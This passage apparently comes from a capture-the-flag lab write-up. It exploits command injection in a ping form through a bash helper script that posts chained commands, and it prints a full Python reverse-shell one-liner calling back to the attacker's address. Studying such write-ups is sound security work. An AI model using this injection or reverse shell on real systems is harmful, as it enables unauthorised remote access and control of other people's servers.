Thinking about how the box is taking my input and running it, it is
likely running my command and piping the output to `/dev/null` and then
checking the status code. But if that's the case, what happens when I
run multiple commands? Output! Before I figured that out, I went down
the road of exfiling data over ICMP. I'll show how I did that in another
[Beyond Root Section](#exfil-via-ping).

If I submit `ping -c 2 127.0.0.1; echo test`, I get:

![](/img/1546486125357.png)

I wrote a little bash script that will take am ip and cmd, and print out
the results:



    #!/bin/bash

    ip=$1
    cmd=$2

    curl -s -6 -X POST "http://[${ip}]:80/" -d "command=${cmd};" | grep -F "<.md>" -A 10 | grep -vF -e "<.md>" -e "Command was executed succesfully!"





    root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 pwd
    /var/www.md



### Option #1 - Shell as www-data

As I showed in the previous results, the site is running as www-data. I
also remember that python is not on the blocked commands filter, so I
will use a python reverse shell. I'll use my bash one-liner from above,
and put in the python shell for the command (remembering to esacape the
inner "s):



    root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"



On running this, it just hangs, and I don't get a callback. The fact
that it doesn't die immediately and return suggests to me that my
command ran, but that it was unable to connect back to me (firewall?).
What about IPv6?
